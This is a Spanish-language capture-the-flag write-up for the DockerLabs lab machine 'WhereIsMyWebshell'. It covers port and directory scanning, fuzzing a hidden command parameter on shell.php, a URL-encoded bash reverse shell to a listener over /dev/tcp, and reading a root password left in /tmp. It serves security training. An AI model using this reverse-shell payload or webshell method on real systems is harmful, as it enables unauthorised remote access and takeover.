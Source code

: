 #MAQUINA #DOCKERLABS #FACIL
<hr>

# RECONOCIMIENTO

Vamos a resolver **WhereIsMyWebshell** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-09 11:46 CET
Initiating ARP Ping Scan at 11:46
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 11:46, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 11:46
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 11:46, 0.50s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2024-12-09 11:46:34 CET for 1s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.71 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)


```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** abierto.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p80 172.17.0.2                              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-09 11:46 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.000019s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Academia de Ingl\xC3\xA9s (Inglis Academi)
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.50 seconds



```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-09 11:49 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.0000030s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.48 seconds


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

## HTTP (80)
Al revisar la web que hay en el puerto 80, vemos que nos dice que guarda un secreto en **/tmp**.

Usando **gobuster** encontramos lo siguiente:

   ```bash

gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x html,php,js,txt,png,jpg     
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              png,jpg,html,php,js,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 2510]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/shell.php            (Status: 500) [Size: 0]
/warning.html         (Status: 200) [Size: 315]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1543913 / 1543920 (100.00%)
===============================================================
Finished
===============================================================



```

Hay un **shell.php** , archivo raro. Vamos a usar **wfuzz** para ver si tiene algún parámetro :
   ```bash
wfuzz -u "http://172.17.0.2/shell.php?FUZZ=whoami" -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt --hc=500
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/shell.php?FUZZ=whoami
Total requests: 207643

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                              
=====================================================================

000108069:   200        2 L      2 W        21 Ch       "parameter" 

```

Podemos ejecutar comandos desde **shell.php** con **parameter**.

# EXPLOTACION

Nos ponemos en escucha por el puerto 443 y :

   ```bash
   
http://172.17.0.2/shell.php?parameter=bash%20-c%20%27exec%20bash%20-i%20%26%3E/dev/tcp/172.17.0.1/443%20%3C%261%20%27

```

# ESCALADA PRIVILEGIOS

Recordamos que había algo en **/tmp**:

   ```bash
www-data@e486af8c2078:/var/www/html$ cd /tmp
www-data@e486af8c2078:/tmp$ ls -la
total 12
drwxrwxrwt 1 root root 4096 Dec  9 10:44 .
drwxr-xr-x 1 root root 4096 Dec  9 10:44 ..
-rw-r--r-- 1 root root   21 Apr 12  2024 .secret.txt
www-data@e486af8c2078:/tmp$ cat .secret.txt 
contraseñaderoot123


```

Tenemos la contra de root.

**YA ESTAMOS COMO ROOT.**